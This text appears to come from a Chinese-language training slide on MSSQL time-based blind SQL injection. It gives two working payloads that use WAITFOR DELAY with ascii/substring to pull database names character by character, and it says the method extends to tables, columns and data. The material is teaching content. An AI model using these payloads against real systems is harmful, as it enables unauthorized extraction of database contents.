

MSSql报错注入
MSSql时间盲注的过程
Mssql时间盲注跟mysql相似：
Mysql时间盲注，sleep,benchmark。
Mssql使用 WAITFOR DELAY '0:0:5'。
获取数据：
payload：id=1' if(ascii(substring((select top 1 name from sys.sysdatabases),1,1))=109) waitfor delay '0:0:5'--
payload：id=1' if(ascii(substring((select top 1 name from sys.sysdatabases),2,1))=97) waitfor delay '0:0:5'—
查库名、表名、字段名、字段内容使用此法类推即可。